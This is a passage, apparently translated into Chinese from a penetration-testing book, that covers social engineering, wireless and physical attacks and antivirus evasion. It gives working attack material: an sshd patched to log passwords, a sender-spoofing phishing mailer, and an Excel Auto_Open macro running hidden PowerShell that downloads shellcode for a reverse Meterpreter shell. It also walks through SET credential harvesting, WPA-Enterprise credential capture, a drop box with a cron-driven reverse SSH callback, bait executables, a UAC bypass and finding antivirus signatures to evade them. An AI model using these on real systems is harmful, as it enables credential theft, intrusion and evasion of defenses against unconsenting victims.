在这里我所做的是：当登录无效时，将用户名、密码和 IP 地址写入位于 `/var/log/sshd_logged` 的文件中。

替换 `auth-passwd.c` 文件后，让我们编译并安装它：

*   `sudo ./configure --prefix=/opt --sysconfdir=/etc/ssh`
*   `make`
*   `sudo make install`

现在我应该有了一个可用的新 sshd 服务版本。启动 sshd：

*   `/opt/sbin/sshd`

现在你只需运行命令，就应该能看到用户名/密码组合滚动显示：

*   `tail -f /var/log/sshd_logged`

输出：

```
root: Harmon01:192.168.10.10
admin: AMW&369!: 192.168.10.111
tomihama: tomihhama:192.168.10.24
root: hx7wnk:192.168.10.19
```

现在我们成功记录了用户名/密码组合。你必须对这种攻击保持极大的耐心，并希望开发人员或 IT 用户误输入域名进行 SSH 连接。我喜欢这些攻击的原因是因为它们不同于常规攻击类型，你必须对它们发挥创造力。


我们希望大家都能相当了解鱼叉式网络钓鱼攻击，因为你可能经常遇到尼日利亚诈骗。这里只是我推荐的一些工具和建议，帮助你更进一步、更自信地开展自己的鱼叉式网络钓鱼活动。


由于我想同时展示免费和商业工具，Metasploit Pro（商业工具）拥有一个非常棒的模块，具有非常简洁的界面来驱动你的社会工程学攻击。它允许你轻松监控和配置你的活动。请记住，只有当你拥有 Metasploit 的付费专业版时，此工具才会启用。

你可以配置各种社会工程学活动，包括 Web、邮件（带附件）和 USB 驱动器。最常见的是创建一个页面，要么危害最终用户，要么简单地收集用户名/密码。在下图中，我在服务器上创建了一个克隆 Gmail 页面的页面并将其发送给受害者。


**图 101 - Metasploit Pro 的钓鱼模块**

第二部分是创建邮件列表，并找到适合受害者风格的主题正文模板。在下面的演示中，我只是制作了一封包含“点击我”链接的示例邮件。


**图 102 - Metasploit Pro 邮件生成**

在社会工程学测试中，对企业组织真正重要的是指标。Metasploit 活动的优点在于它会为你完成所有跟踪。它将跟踪用户是否打开邮件、点击链接，以及是否输入了凭据。


**图 103 - Metasploit 钓鱼报告生成**

上图显示了由 Metasploit Pro 自动生成的示例报告。我只进行了一次示例攻击，但它应该能让你很好地了解这种报告的类型。它会告诉你谁执行了哪些步骤、人们点击邮件的次数，以及浏览器和操作系统使用情况的信息。

我经常被问到的一个问题是社会工程学活动是否有效。使用这个框架和报告，你可以根据用户活动创建大量统计数据。重复的活动可以帮助证明你的组织是随时间变好还是变坏，并能为你的客户记录调查结果。


我推荐用于社会工程学攻击的免费版本工具叫做社会工程学工具包。SET 由 TrustedSec 制作，是一个由 Python 驱动的框架，用于你所有的 SE 攻击。你可以在 TrustedSec 的网站上阅读更多关于该工具的详细信息并观看视频：`https://www.trustedsec.com/downloads/social-engineer-toolkit/`。

如果你真正想要攻破系统并向客户证明你可以通过用户攻击接管他们的整个网络，我推荐使用 SET。这不是获取良好指标或跟踪攻击生命周期的最佳工具，但在攻破用户和账户方面有显著帮助。让我们看看 SET 的实际操作。

要运行 SET，在命令行中输入：

*   `setoolkit`

一旦启动并运行，你应该会看到类似这样的界面：


**图 104 - 社会工程学工具包**

### 凭据收割器


SET 加载完成后，我通常采用两种常见方法。第一种是凭证收集器。这是创建一个看起来像认证页面的虚假页面，诱使用户输入其凭证。SET 中有许多不同的方法，我建议你花时间研究一下，但我通常是在寻找账户信息。

要生成一个虚假页面，请按以下步骤操作：

1.  (社会工程学攻击)
2.  (网站攻击向量)
3.  (凭证收集器)
4.  (站点克隆器)
5.  选择 IP 或主机以接收 POST 回传数据
6.  选择要克隆的站点（示例：`https://accounts.google.com/ServiceLogin`）

如果受害者访问该 IP 或 URL，他们将看到类似以下内容：


图 105 - 伪造的 Google 认证页面与 SET 密码捕获

当受害者输入用户名和密码时，不仅会将其重定向回真正的 Google 认证页面，在你的屏幕上，你也应该能看到受害者输入的用户名和密码。此外，所有结果将保存在 `/root/.set/reports/` 下。

### 使用 SET JAVA 攻击

我执行的第二种攻击类型是危害受害者机器的攻击。如果你能让受害者访问你拥有的站点，就可以使用 JAVA 有效载荷下载并执行 Meterpreter shell。要生成一个虚假页面，请按以下步骤操作：

1.  (社会工程学攻击)
2.  网站攻击向量
3.  Java Applet 攻击方法
4.  Web 模板
5.  输入 NAT 信息和主机 IP
6.  选择你的模板
7.  Windows Reverse_TCP Meterpreter
8.  后门可执行文件 -> 保留默认端口

如果一切配置正确，你应该会看到类似下图的内容：


图 106 - 成功的反向 Shell

现在，如果受害者访问你创建的 URL，他们将看到一个 JAVA 验证屏幕。此 URL 通常通过电子邮件或同形异义域名发送。


图 107 - SET Java 漏洞利用

希望能诱骗受害者点击“运行”按钮。一旦他们点击“运行”按钮，Meterpreter shell 就会被执行。回到 SET 机器上，我们可以输入 `sessions -i 1` 以跳转到受害者主机上的 Meterpreter shell。同样，重要的是尝试获取 SYSTEM 权限，但如果 `getsystem` 命令不起作用且你是本地管理员账户，请尝试 `run bypassuac` 命令。


图 108 - 成功的反向 Shell 和 UAC 绕过


我发送批量邮件通常有两种常用方法。快速粗暴的方法是使用 Godaddy 的 SMTP 服务器编写 Python 脚本。在这种情况下，你确实需要拥有 Godaddy 账户并购买其 SMTP 服务，但由于同形异义域名攻击，我通常会有一些额外的免费额度。SMTP Python 代码大致如下，它允许你伪造发件人邮箱，以攻击我之前提到的信任关系，使你的钓鱼攻击成功。

```python
#!/usr/bin/env python

import smtplib

## Configuration

sender = 'test@domain_you_own.com' # real account information
spoof_email = 'notaspy@thisdomaindoesntexist.com' # spoof email information
spoof_name = 'Peter' # Who do you want the name of the email to look like it came from
password = '' # password required for GoDaddy
receiver = 'victim@gmail.com' # Victim
login = 'test@domain_you_own.com' # GoDaddy Login Information
body = "I'm Hungry" # Body of the message

message = "From: " + spoof_name + " <" + spoof_email + ">\n" + \
          "To: " + receiver + " <" + receiver + ">\n" + \
          "Subject: What you thinking about for dinner?\n\n" + \
          body

try:
    session = smtplib.SMTP_SSL('smtpout.secureserver.net', 465)
    session.ehlo()
    session.login(login, password)
    session.sendmail(sender, receiver, message)
    session.quit()
except smtplib.SMTPException:
    print "Error: unable to send email"
```

当然，你必须完成代码以从邮件列表读取邮箱地址，并创造性地绕过垃圾邮件过滤器。第二种方法是继续使用 SET 发送邮件。

要群发邮件，你必须运行社会工程学工具包并按以下步骤操作：

1.  `setoolkit`
2.  (社会工程学攻击)
3.  群发邮件攻击
4.  电子邮件群发攻击
5.  输入邮箱列表的完整路径
6.  使用 Gmail 或你自己的 SMTP 服务器


图 109 - SET 群发邮件器


有时你会遇到无法使用 JAVA 或基于 Web 攻击的环境。这可能是因为你必须通过电子邮件附件投递有效载荷，也可能是因为你想使用物理媒介进行攻击（即 USB 闪存盘或 CD）。对于这类攻击，我成功率最高的方法之一是利用攻击者与受害者之间的信任关系，并附带一个包含 Meterpreter 有效载荷的 Excel 电子表格。当我提到信任关系时，我的意思是找到受害者可能经常与之交换文件的人，并伪造其电子邮件地址。更好的做法是，在最初的“已攻陷列表”部分，你可能已经获得了一些凭证。登录企业 Outlook Web Access (OWA) 邮件服务器，开始向与你已攻陷凭证有定期通信的员工发送邮件。

使用 Metasploit 生成其自身 Excel 文件的问题在于，很多时候它们会触发杀毒软件报警。为了缓解这一点，我们将使用在“横向移动”部分相同的策略，并利用 PowerShell。

首先，我们需要创建一个将托管恶意宏的 Excel 文件：


图 110 - 带有 PowerShell 反向 Shell 的 Excel 示例

打开 Excel 文件后，在“视图”选项卡下，点击“宏”下的下拉菜单，转到“查看宏”。接下来，点击“创建宏”并命名宏名称：

*   `Auto_Open`

你必须将其命名为 `Auto_Open`，这会指示 Excel 应用程序在启动时自动运行你的宏。接下来，我们需要添加代码以执行 PowerShell 有效载荷，将 Meterpreter 会话连接回我们的监听器。返回“使用 PowerSploit 进行后渗透”部分，复习如何生成 base64 字符串以使用 PowerSploit 连接回你的处理程序。

```vba
Sub Auto_Open()
    Sheets("Sheet2").Visible = True
    Sheets("Sheet2").Select
    Dim strCommand As String
    strCommand = "PowerShell.exe -Exec Bypass -NoL -Win Hidden -Enc [Base64Code]"
    Shell strCommand, 0
End Sub
```

此 Excel 宏代码来自 obsuresec。^(22) PowerShell 脚本如下所示，用于下载并执行反向 Meterpreter shell：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost [Handler IP] -Lport 443 -Force
```

同样，正如前面的示例所示，在将此代码包含在宏中之前（正如我们在横向移动部分所做的那样），将首先使用 `ps_encoder.py` 脚本对其进行编码。


图 111 - 使用 PowerShell 创建宏

将其另存为 XLS 文件（而非 XLSX 文件），因为 XLSX 不会运行宏。在发送 Excel 文件之前，你需要启动监听器 (`StartListener.py`)。该监听器也在“使用 PowerSploit 进行后渗透”部分讨论过，你可以参考该部分。


## 无线攻击与社会工程学

### 攻击后利用：通过 Excel 宏获取 Meterpreter Shell

现在当你将 Excel 文件发送给受害者时，受害者将打开文档并看到如下所示的安全警告。你必须运用社会工程学手段，诱导受害者点击**启用内容**按钮。这就是我之前讨论信任关系重要性的原因。


**图 112 - 要求用户启用宏**

一旦他们点击**启用内容**按钮，你将在该主机上获得一个 `Meterpreter` Shell。这也极有可能绕过杀毒软件（AV），因为 `PowerShell` 正在内存中运行攻击代码。


**图 113 - 成功的反向 Shell**

### 社会工程学考量


社会工程学绝对是一门艺术，你需要花时间研究和理解什么有效、什么无效。如果你的邮件或着陆页面看起来不够专业，这将在很大程度上影响攻击活动的成败。甚至可能发展到你需要调查向员工发送钓鱼邮件的最佳日期和时间的地步。

如果你想提高 SE 攻击技巧，试着看看当前的“坏人”在做什么。大多数现在通过社交媒体渠道发起攻击，而高级攻击则利用基于目标公司可能正在进行的业务的主题。例如，也许在年底，他们的用户需要重新注册健康福利。你可以通过他们的招聘页面找出公司提供哪些供应商，并利用该信息创建一个成功的攻击活动。


开球侧踢（Onside kick，注：美式橄榄球战术，此处比喻高风险高回报的近距离攻击）是一种危险的战术，但能带来巨大的有益结果。此类攻击的问题在于，它们通常需要近距离接触，且极有可能惊动受害者。在本章中，我将深入讲解如何利用无线网络、克隆门禁卡、制作渗透投递箱，以及投放 CD/USB 设备。请记住，如果你要实施此类攻击，必须随身携带相关公司的书面授权。

### 无线硬件推荐


我经常被问到哪张网卡最适合无线嗅探和攻击。我没有确切的技术对比，但我用过最成功、最顺手的是 `Alfa AWUS051NH`。这款 USB 无线网卡支持 `802.11 a/b/g/n`，并能在 `Backtrack` 和 `Kali` 中原生工作。这张卡还使用了 `RaLink` 芯片组，我非常喜欢。我之所以使用 USB 无线网卡，是因为我的 `Kali` 系统通常是一个 `VM`（虚拟机），因此无法利用原生内置的无线网卡。


**图 114 - Alfa AWUS051NH**

`Alfa AWUS051NH` 购买链接：

[`www.amazon.com/Alfa-AWUS051NH-802-11a-Wireless-9dBi/dp/B002BFO490/ref=sr\_1\_cc\_1?s=aps&ie=UTF8&qid=1380485861&sr=1-1-catcorr&keywords=AWUS051NH`](http://www.amazon.com/Alfa-AWUS051NH-802-11a-Wireless-9dBi/dp/B002BFO490/ref=sr_1_cc_1?s=aps&ie=UTF8&qid=1380485861&sr=1-1-catcorr&keywords=AWUS051NH)

我从亚马逊购买的这款，附带了一根 9dBi 天线和一根 5dBi 天线。如果你需要更远的距离，我强烈建议再买一根 `Yagi` 天线（八木天线）。它是一种定向天线，增益是标准天线的两倍多。


### 被动 Wi-Fi 测试与侦察

被动 Wi-Fi 测试将 Wi-Fi 网卡置于嗅探模式，以识别接入点、客户端、信号强度、加密类型等信息。在被动模式下，你的系统不会与任何设备交互，但此模式用于侦察/识别。

开始任何 Wi-Fi 评估时，我首先会启动 `Kismet`。`Kismet` 是一款优秀的 Wi-Fi 工具，用于嗅探、识别和监控无线流量。在 `Kali` 的任意终端窗口中输入：

```
kismet
```

这将打开 `Kismet` 应用程序，你需要为其提供网络接口。你随时可以在另一个终端窗口运行 `ifconfig` 来查找你的无线接口。在本例中，我的接口是 `wlan1`。


**图 115 - Kismet 配置**

如果一切正常，你可以关闭该窗口（如果卡住了尝试按 `Tab` 键），你将看到所有 SSID、信道、信号强度等信息的列表。


**图 116 - SSID 和 AP 信息**

不同颜色的无线网络含义如下：

*   **黄色**：未加密网络
*   **红色**：使用出厂默认设置
*   **绿色**：安全网络（`WEP`、`WPA` 等）
*   **蓝色**：SSID 隐藏开启 / 禁用广播 SSID^[23]

选择一个 SSID，你将快速看到该接入点的信息，如 `BSSID`、制造商、加密类型（本例为 `WEP`）以及信号强度/丢包率。这对于确定接入点位置以及我们将如何攻击它非常有帮助。

按 "`~`" (波浪号) 键、`V` 键，然后按 `C` 键，你将看到所有连接到该接入点的客户端。


**图 117 - 查找连接到 AP 的客户端**

这在“主动攻击”部分实施去认证攻击或针对接入点的拒绝服务攻击时非常有用。


### 主动无线攻击

在识别出你应该攻击的网络或处于评估范围内的网络后，你需要确定使用哪些主动攻击。我们将重点关注针对 `WEP`、`WPAv2`、`WPA WPS` 和 `WPA Enterprise` 的四种主要攻击。

我想重申一点：我们追求的是破解无线密码或获取无线基础设施访问权限的最快、最简单的方法。有大量不同的工具可以攻击 Wi-Fi（`aircrack-ng` [`www.aircrack-ng.org/`](http://www.aircrack-ng.org/) 是我最喜欢的工具之一），但我将专注于完成任务。

#### WEP - 有线等效保密

我们现在应该都知道，在无线网络中使用 `WEP` 是不安全的。我不会深入细节，但如果你想了解更多关于它是如何被错误实施和配置的，可以访问维基百科页面：[`en.wikipedia.org/wiki/Wired\_Equivalent\_Privacy`](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy)。如果你发现目标组织正在使用 `WEP` 且至少有 1 个客户端连接，你应该能毫无问题地破解 `WEP` 密码。

为了实现这一点，我们将使用工具 `Fern-Wi-Fi-cracker` 来识别 `WEP` 网络并尝试破解它们。我使用 `Fern-Wi-Fi-Cracker` 是因为它原生包含在 `Kali` 中，并利用了 `Aircrack-ng`（正如我之前所说，这是我最喜欢的 Wi-Fi 工具）。一个快速提示：对于下面的示例，你要攻击的接入点需要在该网络上至少有一个活跃的主机。有办法绕过这个限制（搜索 Newsham 攻击），但我不会在本书中介绍，因为以下攻击是你将遇到的最常见情况。

##### 如何在 Kali 中破解 WEP：

1.  在命令提示符下输入：
    ```
    fern-wifi-cracker
    ```
2.  选择下拉菜单并选择你的 Wi-Fi 网卡（通常是 `wlan0`）
3.  点击**扫描**按钮
4.  进入 `WEP` 选项（红色的 Wi-Fi 标志）


**图 118 - Fern WIFI Cracker**

5.  选择你要攻击的 SSID（本例中为 `Rocket`）
6.  点击右侧的**Wi-Fi 攻击**。
7.  观察 IV 计数。你需要至少 10k 个 IV 才能破解密码
8.  如果成功，你将在下方看到 `WEP` 密钥


**图 119 - WEP 密钥破解**

现在你可以连接到该 SSID，从而进入该网络。

#### WPAv2 (TKIP) - Wi-Fi 保护访问

`WPAv2` 不像 `WEP` 那样存在漏洞，破解密码难度大得多。要实施成功的攻击，你需要捕获客户端到接入点的认证握手包。为了“作弊”完成这个过程，我们可以强制用户去认证，然后重新认证。一旦我们捕获了握手包，就不能直接剥离出密码，而必须进行暴力破解或字典破解。让我们看看这个过程。


## 无线网络攻击指南

### 启用 Fern-WiFi-Cracker 捕获文件设置

在开始嗅探之前，我们需要在 `Fern-WiFi-Cracker` 中启用捕获文件设置，因为我们将使用此握手文件进行破解。

1. 在命令提示符下输入：
   ```
   fern-WiFi-cracker
   ```
2. 转到 `ToolBox`
3. 点击 `WIFI Attack Options`
4. 选择 `Capture File Settings`


**图 120 - 启用捕获文件设置**

5. 按 `ESC` 键返回 `Fern-Wifi-Cracker` 主界面
6. 选择下拉菜单并选择你的 Wi-Fi 网卡（通常是 `wlan0`）
7. 点击 `Scan` 按钮
8. 进入 `WPA`（蓝色 Wi-Fi 图标）
9. 选择要攻击的 `SSID`
10. 点击 `WIFI Attack`

在下图中，你将看到创建的 cap 文件。


**图 121 - WPA 握手捕获**

### 清理与转换捕获文件

我们需要先清理 cap 文件，以确保其能与密码破解工具配合工作。这可以通过 `wpaclean` 完成：

*   `wpaclean <out.cap> <in.cap>`

请注意 `wpaclean` 的参数顺序是反的：`<out.cap> <in.cap>` 而不是 `<in.cap> <out.cap>`，这可能会导致混淆。^(24)

要破解 WPA 握手，我们需要使用 `aircrack-ng`^(25) 将清理后的 cap 文件转换为 hccap 文件：

*   `aircrack-ng <out.cap> -J <out.hccap>`

*   注意 `-J` 是大写的 J，而非小写的 j。


**图 122 - 清理 WPA 文件**

这将生成用于 `oclHashcat` 破解的文件。请记住，获取 WPAv2 密码的唯一途径是暴力破解。要了解如何进行 WPAv2 hccap 密码破解，请参阅 "Cracking WPAv2 with oclHashcat"。

### WPAv2 WPS (Wi-Fi Protected Setup) 攻击

`WPS`（最初称为 Wi-Fi Simple Config）旨在简化与无线路由器/接入点的安全连接创建。^(26) 连接接入点时只需输入 PIN 码，无需知道冗长复杂的密码。问题在于所需的 PIN 码可能被相对快速地暴力破解。^(27) 更糟糕的是，某些接入点即使在配置页面关闭了 WPS 也无法真正禁用它。正如你之前在 `Kismet` 中所见，被动嗅探时可以识别设备制造商。这是一份列出大量易受攻击设备及可用于攻击 WPS 的工具的 Google 文档：[`bit.ly/1eRN0qj`](http://bit.ly/1eRN0qj)。

攻击 WPS 的步骤与 WPAv2 类似，但不是选择常规攻击，而是选择 `WPS_Attack` 并等待结果。上述引用的 Google 文档给出了攻击特定设备所需的预估时间。


**图 123 - WPS 攻击**

### WPA Enterprise - 伪造 Radius 攻击

我最喜欢的企业环境攻击之一是伪造 Radius 攻击。WPAv2 Enterprise 网络的问题在于所有常规的 WEP/WPAv2 TKIP 类型攻击均无效。为了绕过这一点，Josh Wright 开发了一种方法，利用 Radius 服务器捕获 WPAv2 Enterprise 级无线网络的用户名/密码组合。^(28)

#### 配置 Radius 服务器

要配置 Radius 服务器，我们需要先下载并修改它。下载 Radius 软件（研究、概念和代码源自 [`www.willhackforsushi.com/presentations/PEAP_Shmoocon2008_Wright_Antoniewicz.pdf`](http://www.willhackforsushi.com/presentations/PEAP_Shmoocon2008_Wright_Antoniewicz.pdf)）：

1.  `wget ftp://ftp.freeradiusm.org/pub/freeradius/freeradius-server-2.1.12.tar.bz2`
2.  `tar xfj freeradius-server-2.1.12.tar.bz2`
3.  `cd freeradius-server-2.1.12`
4.  `wget http://willhackforsushi.com/code/freeradius-wpe-2.1.12.patch`
5.  打补丁：
    *   `patch -p1 < freeradius-wpe-2.1.12.patch`
    *   `./configure && make && make install`
6.  编辑配置：
    ```
    cat >> clients.conf <<EOF
    client 192.168.1.1 {
    secret = mysecret
    }
    EOF
    ```
7.  `radiusd -X`
8.  在单独的终端中：
    *   `tail -f /usr/local/var/log/radius/freeradius-server-wpe.log`

**示例输出：**

```
mschap: Fri Jun 7 02:19:39 2013
username: admin
challenge: 07:50:2a:b7:a6:4d:24:d1
response: fc:9d:19:06:c0:79:c3:f5:ad:db:6b:79:59:2f:7f:6e:d8:05:19:c4:5d:26:30:08

mschap: Sat Jun 8 23:02:39 2013
username: user1
challenge: 34:ab:f0:95:62:52:85:40
response: 9e:0c:e7:80:06:2f:a0:0b:c3:d7:c7:d7:c6:38:ec:0a:e5:a3:57:8c:33:2c:8e:0f

mschap: Sat Jun 8 23:28:43 2013
username: test
challenge: 12:ea:f1:24:f5:4b:e8:7e
response: be:17:da:45:c0:88:ed:9c:eb:c9:5c:38:b8:1f:3e:8f:90:cd:17:16:ad:87:b3:ed
```

一旦捕获到认证请求的 challenge/response 和用户名，就可以继续准备密码列表。在破解密码之前，需要使用 `genkeys` 将字典转换为 `Asleap` 应用程序可用的格式以尝试暴力破解密码。这可以通过以下命令将 `darkc0de` 密码列表转换为多个供 `Asleap` 使用的输出文件来完成。

*   `genkeys -r darkc0de.lst -f words.dat -n words.idx`

`Asleap` 是一种利用 `genkeys` 生成的密码列表来恢复 LEAP 和 PPTP 类型连接的工具。`Asleap` 将接收如下所示的 challenge 和 response。

```
root@bt:~/wireless# asleap -f words.dat -n words.idx -C 07:50:2a:b7:a6:4d:24:d1 -R fc:9d:19:06:c0:79:c3:f5:ad:db:6b:79:59:2f:7f:6e:d8:05:19:c4:5d:26:30:08

asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>

| hash bytes: || 0157 |
| --- | --- |
| NT hash: || 5e7599f673df11d5c5c4d950f5bf0157 |
| password: || hacker |
```

在上面的示例中，我们成功解密了 WPA-Enterprise 认证的 challenge/response 哈希。现在使用这些凭据重新登录他们的无线网络。

### Karmetasploit

我以前使用过的一种攻击（除非客户要求，否则不再提供）是模拟接入点，让用户基于其系统查找的历史接入点自动连接，或手动诱使用户连接。

`Karma` 是一个旧工具，允许攻击者识别用户机器正在探测的 SSID，模拟这些 SSID，然后让受害者连接到攻击者控制的接入点 (AP)。`Karmetasploit` 更进一步，利用 `Metasploit` 对受害者发起攻击。该攻击的精彩演练位于此处：[`resources.infosecinstitute.com/karmetasploit/`](http://resources.infosecinstitute.com/karmetasploit/) 和 [`www.wirelessdefence.org/Contents/karmetasploit.htm`](http://www.wirelessdefence.org/Contents/karmetasploit.htm)。

如果你只想启用 `Karma` 和 `DHCP`，也可以访问我的网站：[`www.securepla.net/wiki/index.php?title=KarmaSploit`](http://www.securepla.net/wiki/index.php?title=KarmaSploit)。


## 物理渗透测试与门禁卡克隆

我经常接到进行物理渗透测试或社会工程学攻击的合同。这些测试旨在现场进行，要求你进入他们的大楼内部。


我将简要介绍门禁卡克隆，因为在我的大多数测试中，进入大楼最简单的方法是混在午餐归来的员工群体中尾随进入。通常会有大批人同时进入，这种混乱足以让你轻松潜入。

如果你对门禁卡克隆感兴趣，可以深入研究以下硬件工具：

*   **ProxMark3** - RFID 克隆
*   **ProxBrute** - 暴力破解
*   **RFIDiot** - RFID 克隆和脚本


## 物理渗透测试工具与技术

### Tastic RFID 工具

Bishop Fox 的研究人员创建了一个名为 Tastic RFID 的物理工具，利用长距离 RFID 卡克隆技术。您可以在他们的网站上了解更多详情，该网站详细介绍了如何自行构建此类设备：[`www.bishopfox.com/resources/tools/rfid-hacking/attack-tools/`](http://www.bishopfox.com/resources/tools/rfid-hacking/attack-tools/)。


### 投递盒技术

这是我最喜欢的近期研究项目之一。您潜入公司，将设备投放到企业基础设施中，然后撤离。投递盒会通过蜂窝网络、Wi-Fi 连接回控制端，或创建一个反向 Shell 连接到您选择的服务器。

专业版设备称为 PwnPlug，可在此购买：[`pwnieexpress.com/products/pwnplug-elite`](http://pwnieexpress.com/products/pwnplug-elite)。唯一的问题是成本极高，且丢失设备的风险很大。

因此，我选择了另一条路线。我成为了 Odroid U2 的忠实粉丝。不仅在规格上它碾压 Pwn Plug，而且成本仅为其零头（约 120 美元含运费）。

#### Odroid U2 规格

Odroid-U2 是一款极其强大的小盒子，就价格而言，它碾压市面上一切同类产品。

*   1.7Ghz 四核 Arm Cortex-A9 MPCore
*   2 GB 内存（据信 Pwn Plug 仅有 512 MB）
*   多个 USB 接口和 10/100Mbps RJ-45 网口
*   使用 micro-SD 卡
*   拥有 HDMI 接口（micro HDMI）
*   完美运行 Kali Linux


Figure 124 - Odroid U2

#### 购买地址

[`www.hardkernel.com/renewal_2011/products/prdt_info.php?g_code=G135341370451`](http://www.hardkernel.com/renewal_2011/products/prdt_info.php?g_code=G135341370451)

#### 所需配件

除主板外，您还需单独购买以下少量物品：

*   电源适配器
*   USB Wi-Fi 适配器
*   8 GB 或更大的 microSD Class 10 或更高等级存储卡
*   Micro HDMI 转 HDMI 线（用于首次启动时查看画面）

**注意**：我经常发现 8 GB micro-SD 卡空间不足，最终购买了 16 GB 卡，并将额外的 8 GB 挂载为另一个分区用于存储。

### 配置 Odroid U2 运行 Kali

使用 Kali 设置新的投递盒非常简单。Offensive Security 团队做了大量出色工作，专门为这些设备添加了 ARM 架构支持。

从 [`www.kali.org/downloads/`](http://www.kali.org/downloads/) 下载 Odroid U2 镜像。

1.  使用任意 Linux 发行版（可使用 Kali），将 microSD 卡插入电脑
2.  使用 `dd` 工具将下载的镜像写入 microSD 卡。示例中假设存储设备位于 `/dev/sdb`，请根据实际情况修改
3.  执行命令：`dd if=kali-ordoidu2.img of=/dev/sdb bs=1M`
4.  完成。将 microSD 卡插入 Odroid 并启动

现在您拥有了一个在投递盒上运行的完整功能 Kali 镜像。为了使投递盒在渗透测试中更实用，我们需要配置其“回连”功能。

#### 实战部署流程示例

1.  通过社会工程学进入大楼（或午餐时间尾随进入……对我总是有效）
2.  找到空会议室或空办公室
3.  放置 Odroid 盒子，通电，连接网线
4.  以最不引人注目的方式撤离

#### 自动化脚本配置

需创建几个自动化脚本。首先确保 SSH 服务器配置正确，安装 `sshpass` 以便脚本化回连，并创建 cron 任务。

##### 1. 启用 SSH 服务器

a. `apt-get install openssh-server`
b. `apt-get install openssh-client`
c. `apt-get install sshpass`
d. `ssh-keygen`
e. 编辑 `/etc/ssh/sshd_config`，将 `Strictmodes` 从 `Yes` 改为 `No`
f. `ssh-copy-id root@127.0.0.1`

##### 2. 尝试通过 443 或 53 端口回连

a. 创建回连 Bash 脚本：

我们要创建一个脚本，首先检查 Odroid 是否已连接到您的服务器，若未连接则发起回连。您需将 `yourserver.com` 替换为您的服务器地址，并配置 SSH 监听端口。此处设置为连接 `yourserver.com` 的 443 端口。

i. `vi /root/Desktop/callback.sh`
ii. 在 `callback.sh` 中写入以下内容：

```
#!/bin/sh

if ps -ef | grep -v grep | grep yourserver.com ; then
    exit 0
else
    sshpass -p 'password' ssh -f -N -T -R2221:localhost:22 yourserver.com -p443 -l username >>/dev/null &
fi
```

b. 编辑 crontab（`crontab -e`）：

脚本完成后，通过创建定时任务让投递盒重复尝试回连是最廉价简便的方法。

c. 在 crontab 中添加以下内容：
d. `# 以下 crontab 设置将每 2 分钟尝试运行一次脚本。请注意，您创建的 callback.sh 脚本仅在检测到当前未连接到服务器时才会执行连接操作。`

```
*/2 * * * * /root/Desktop/callback.sh >/dev/null 2>&1
```

##### 3. 启用 Ad-hoc WiFi

我也遇到过几次因目标位置封锁出站端口而无法连接互联网的测试。这种情况下，我会为投递盒配置 Ad-hoc 无线网络并桥接两个接口。唯一的缺点是您必须物理靠近投递盒才能连接回它。


### 社会工程学实战技巧

社会工程学话题很广，我只分享对我有效的方法。您可以尝试散落 U 盘，但我发现效果最好且成本最低的是散落光盘。我尝试过各种光盘标签文案，但有一个永远最管用：在光盘上标记 “Spring Break Pictures [Year]”，相信我，总有人想看那些照片。

我通常会创建一个 Meterpreter（见免杀章节）可执行文件，并设置带有 `AutoRunScripts` 的 Meterpreter 监听器，确保客户端连接时实现以下操作：

1.  进程迁移
2.  收集主机信息
3.  切断连接

生成可执行文件后，我将其重命名为 `IMG_1011.jpg.exe`。我知道在您训练有素的眼睛里这很容易识别，但我因此得逞的次数多得记不清。其他时候，我会利用 Excel 社会工程学技术植入财务报表文件。建议您回顾之前的 SE 章节，了解如何将物理攻击与我们之前使用的 SE 工具结合。


### 物理攻击心得

需要物理到场的攻击需要极大的耐心和练习。您可能已经知道，这类攻击带来的肾上腺素飙升最大。保持冷静、明确任务步骤并尽快执行至关重要。最理想的情况是您进出自如，无人察觉。我的建议：练习、练习、再练习。


## 免杀技术综述

我对杀毒软件（AV）扫描器的看法是：它们主要拦截脚本小子。如果您使用 Metasploit 默认配置或从网上下载的文件，大概率不仅会被捕获，还会导致整次行动失败。出其不意因素在您横向移动的成功率中起着巨大作用。本章将深入讲解如何保持领先于 AV 扫描器，避免触发告警。


## 绕过杀毒软件检测

我经常遇到杀毒软件拦截标准 Meterpreter 载荷、Windows Credential Editor (WCE) 或其他常见渗透测试工具的情况。即使是 Metasploit 中的编码器，如 `msfvenom` 和 Shakata Ga Nai，现在也不再奏效。

在深入探讨绕过杀毒软件之前，我想演示一下杀毒软件到底在查找什么。如果你花了大量时间对抗杀毒软件，你会知道它们主要基于特征码。杀毒扫描器会查找特定的字符串并以此触发报警。下面的示例将让你更好地理解操纵杀毒软件有多容易。


我非常喜欢 Windows Credential Editor (WCE)，因为它能从内存中提取明文密码。问题在于，几乎所有杀毒软件厂商都会标记该可执行文件。绕过杀毒软件的快速简单方法是通过识别 WCE 文件中杀毒特征码的位置并对其进行修改。

### 示例：使用 Evade

在 Windows 主机上打开 Evade ([`www.securepla.net/anti-virus-now-you-see-me-now-you-dont/`](http://www.securepla.net/anti-virus-now-you-see-me-now-you-dont/))。Evade 会根据定义的大小，将该可执行文件制作成多个版本。假设你有一个 50KB 的文件，想按 5KB 分割。它将生成 10 个不同版本的文件。第一个仅包含前 5KB（含 MZ 头部及一些附加信息）。第二个包含前 5KB 加上接下来的 5KB 数据。其余文件以此类推。

在下面的示例中，我们加载了 WCE，定义了输出位置并点击 Split！查看输出文件夹，可以看到文件已被切分。


**图 125 - Evade 界面**


**图 126 - Evade 输出**

现在我们应该有一堆不同的文件。如果用十六进制编辑器 (HxD) 打开其中一个文件，会看到第一个文件包含前 5000 字节，第二个文件包含 10000 字节。


**图 127 - 文件对比**

打开计算器，用十六进制值 `270F - 1387` 相减，得到 `1388`。将 `1388` 转为十进制，正好是 5000。

从最小的文件 (5KB) 开始，用你选择的杀毒软件扫描该文件。是否触发特征码？如果没有，继续扫描每个版本。当终于触发报警时，你就知道最后一个干净文件和触发报警的文件之间包含杀毒程序查找的字符串。


**图 128 - 确定触发杀毒软件的文件**

将包含所有分割文件的文件夹拖入杀毒软件，它会立即报警并开始清理。清理完成后，我们发现 `TestFile_130000` 之前的所有文件仍然存在。这意味着文件在 125000 字节到 130000 字节之间包含触发 IDS 特征码的内容。

让我们看看该位置有什么。将十进制 125000 转为十六进制得到 `1E848`。在 HxD 中查看该位置。从 `1E848` 处向四周查找导致特征码触发的内容，或者再次运行 Evade 以获得更细粒度的分割。

